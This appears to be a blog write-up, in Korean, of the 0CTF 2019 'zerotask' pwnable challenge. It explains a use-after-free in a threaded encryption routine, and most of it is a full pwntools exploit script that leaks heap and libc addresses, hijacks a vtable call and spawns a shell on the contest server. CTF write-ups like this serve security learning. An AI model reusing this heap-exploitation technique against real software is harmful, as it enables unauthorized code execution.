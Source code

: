 ```yaml
---
layout:     post
title:      "0CTF 2019 zerotask write-up"
subtitle:   "0ctf 2019 pwnable"
date:       2019-08-07
author:     "NextLine"
header-img: "img/post-bg-1.png"
tags:
    - WriteUp
---
```


# 0CTF 2019 zerotask write-up

### 1. Intro

대회때 빨리 풀어서 퍼블먹었던 문제이다. UAF 나는것만 찾으면 익스는 금방 할 수 있다.


### 2. Binary

```
1. Add task
2. Delete task
3. Go
Choice: 
```

1. `EVP_CIPHER_CTX_new`와 `EVP_EncryptInit`를 호출하고 데이터를 저장한다.
2. 1에서 만든 청크를 free한다.
3. 1에서 만든 청크의 데이터를 encrypt/decrypt해서 보여준다.


### 3. Vulnerability

```c
void __fastcall __noreturn start_routine(Chunk *a1)
{
  int v1; // [rsp+14h] [rbp-2Ch]
  Chunk *_v2[2]; // [rsp+18h] [rbp-28h]
  __int64 v3; // [rsp+28h] [rbp-18h]
  __int64 v4; // [rsp+30h] [rbp-10h]
  unsigned __int64 v5; // [rsp+38h] [rbp-8h]
  v5 = __readfsqword(0x28u);
  *_v2 = a1;
  v1 = 0;
  v3 = 0LL;
  v4 = 0LL;
  puts("Prepare...");
  sleep(2u);
  memset(text, 0, 0x1010uLL);
  if ( !EVP_CipherUpdate(_v2[0]->EVP_CIPHER_CTX, text, &v1, _v2[0]->data, _v2[0]->size) )
    pthread_exit(0LL);
  _v2[1] = (_v2[1] + v1);
  if ( !EVP_CipherFinal_ex(_v2[0]->EVP_CIPHER_CTX, text + _v2[1], &v1) )
    pthread_exit(0LL);
  _v2[1] = (_v2[1] + v1);
  puts("Ciphertext: ");
  print_text(stdout, text, _v2[1], 0x10uLL, 1uLL);
  pthread_exit(0LL);
}
```

3번 메뉴에서 쓰레드를 생성할 때 `EVP_CipherUpdate`를 하기전에 `sleep`으로 2초간 기다린다. 이때 청크를 삭제하면 use-after-free 취약점이 발생한다.


### 4. Exploit

1. 쓰레드에서 입력을 기다리고 있는 상태로 값을 쓰게되면 chunk를 부분적으로 overwrite할 수 있는데, 그걸 이용해서 heap주소를 leak할 수 있다.
2. heap 주소를 leak한 다음에는 전체 구조체를 덮어서 libc주소를 얻는다.
3. 마지막으로 `EVP_CIPHER_CTX` 포인터를 덮어서 `EVP_CipherUpdate`내부에서 사용하는 vtable call을 이용해 rip를 컨트롤 하면 된다.

```python
#from ntpwn import *
from pwn import *
from Crypto.Cipher import AES
KEY = 'B' * 0x20
IV = 'A' * 0x10
def decrypt(chunk):
    dec = AES.new(KEY, AES.MODE_CBC, IV)
    return dec.decrypt(chunk)
LOCAL = 0
def conn():
    if LOCAL:
        s = process('./task')
        #b = NT(s)
        #b.end()
    else:
        s = remote('111.186.63.201',10001)
    return s
s = conn()
sla = s.sendlineafter
sa = s.sendafter
def addtask(_id,endn,key,iv,datasize, data):
    sla(': ','1')
    sla(': ',str(_id))
    sla(': ',str(endn))
    sa(': ',str(key))
    sa(': ',str(iv))
    sla(': ',str(datasize))
    sa(': ',str(data))
def addtask2(_id,endn,key,iv,datasize):
    sla(': ','1')
    sla(': ',str(_id))
    sla(': ',str(endn))
    sa(': ',str(key))
    sa(': ',str(iv))
    sla(': ',str(datasize))
def addtask3(_id,endn,key,iv,datasize,data):
    sla(': ','1')
    sla(': ',str(_id))
    sla(': ',str(endn))
    sa(': ',str(key))
    sa(': ',str(iv))
    sla(': ',str(datasize))
    sa(': ',str(data))
def addtask4(_id,endn,key,iv,datasize,data):
    s.sendline('1')
    sla(': ',str(_id))
    sla(': ',str(endn))
    sa(': ',str(key))
    sa(': ',str(iv))
    sla(': ',str(datasize))
    sa(': ',str(data))
def dele(_id):
    sla(': ','2')
    sla(': ',str(_id))
def go(_id):
    sla(': ','3')
    sla(': ',str(_id))
lc = ELF('libcrypto.so.1.0.0')
# leak heap
addtask(1,1 , KEY, IV, 0x50, 'B' * 0x50)
addtask(2,1 , KEY, IV, 0x50, 'B' * 0x50)
go(1)
dele(2)
dele(1)
addtask2(1,1 , KEY, IV, 0x50)
s.recvuntil('Ciphertext:')
buf = ''
for i in range(7):
    buf += s.recvline()
buf = [chr(int(i,16)) for i in buf.split()]
heap = u64(decrypt("".join(buf))[:8])
s.info("heap @ " + hex(heap))
s.send('A' * 0x50)
#pause()
# leak libc
addtask(3,1 , KEY, IV, 0x8, 'B' * 0x8)
addtask(4,1 , KEY, IV, 0x8, 'B' * 0x8)
addtask(5,1 , KEY, IV, 0x8, 'C' * 0x8)
go(3)
dele(3)
dele(4)
data = p64(heap - 0x460)
data += p64(8)
data += p32(1)
data += KEY + IV
data += '\x00' * 0x14
data += p64(heap + 0x480)
data += p64(5)
data += p64(0)
addtask3(4,1 , KEY, IV, 0x70, data)
s.recvuntil('Ciphertext:')
for i in range(2):
    buf = s.recvline()
pause()
buf = [chr(int(i,16)) for i in buf.split()]
libc = u64(decrypt("".join(buf))[:8]) - 0x225620 - 0x200000 - 0x3f1000
s.info("libc @ " + hex(libc))
oneshot = libc + 0x10a38c
fake = 'A' * 0x10
fake += p64(heap + 0x808)
fake += p64(0) + "\x01\x00\x11\x00\x00\x00\x00\x00"
fake += p64(oneshot)
addtask4(7,1 , KEY, IV, len(fake), fake)
addtask(8,1 , KEY, IV, 0x8, 'B' * 0x8)
go(7)
dele(7)
dele(8)
data = p64(heap - 0x460)
data += p64(8)
data += p32(1)
data += KEY + IV
data += '\x00' * 0x14
data += p64(heap + 0x810)
data += p64(5)
addtask3(8,1, KEY, IV, 0x70, data)
s.interactive()
# flag{pl4y_w1th_u4F_ev3ryDay_63a9d2a26f275685665dc02b886b530e}
```
